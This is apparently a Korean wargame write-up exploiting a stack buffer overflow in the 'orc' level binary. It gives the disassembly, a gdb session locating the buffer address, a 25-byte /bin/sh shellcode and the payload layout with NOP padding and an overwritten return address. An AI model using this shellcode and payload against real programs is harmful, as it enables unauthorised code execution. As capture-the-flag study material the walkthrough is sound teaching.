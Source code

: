 ```asm
0x80485b9 <main+185>:	lea    %eax,[%ebp-40]
0x80485bc <main+188>:	push   %eax
0x80485bd <main+189>:	call   0x8048440 <strcpy>
0x80485c2 <main+194>:	add    %esp,8
0x80485c5 <main+197>:	lea    %eax,[%ebp-40]
0x80485c8 <main+200>:	push   %eax
0x80485c9 <main+201>:	push   0x8048659
0x80485ce <main+206>:	call   0x8048410 <printf>
0x80485d3 <main+211>:	add    %esp,8
0x80485d6 <main+214>:	leave
0x80485d7 <main+215>:	ret
0x80485d8 <main+216>:	nop
0x80485d9 <main+217>:	nop
0x80485da <main+218>:	nop
0x80485db <main+219>:	nop
0x80485dc <main+220>:	nop
0x80485dd <main+221>:	nop
0x80485de <main+222>:	nop
0x80485df <main+223>:	nop
```

### 3. exploit code

```
(gdb) r `python -c "print 'A'*40+'BBBB'+'\xbf\xbf\xbf\xbf'"`
Starting program: /tmp/orc `python -c "print 'A'*40+'BBBB'+'\xbf\xbf\xbf\xbf'"`

Breakpoint 1, 0x80485c5 in main ()
(gdb) x/20wx $esp
0xbffffc8c:	0x00000015	0x41414141	0x41414141	0x41414141
0xbffffc9c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffcac:	0x41414141	0x41414141	0x41414141	0x42424242
0xbffffcbc:	0xbfbfbfbf	0x00000000	0xbffffd04	0xbffffd10
0xbffffccc:	0x40013868	0x00000002	0x08048450	0x00000000
(gdb) x/x 0xbffffc90
0xbffffc90:	0x41414141
```

shell 코드를 실행 시키기 위해서는 buffer의 시작점을 알아야 한다. 위와 같이 충분히 stack을 덮어 쓰고 어디부터 A를 덮어 쓰는지 확인헤야 한다.

여기서는 0xbffffc8c + 4 = 0xbffffc90

- 25byte shell
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

exploit payload 는

shellcode : 25 byte
NOP       : 15 byte
SFP       : 4 byte
RET       : 4 byte (0xbffffc90)
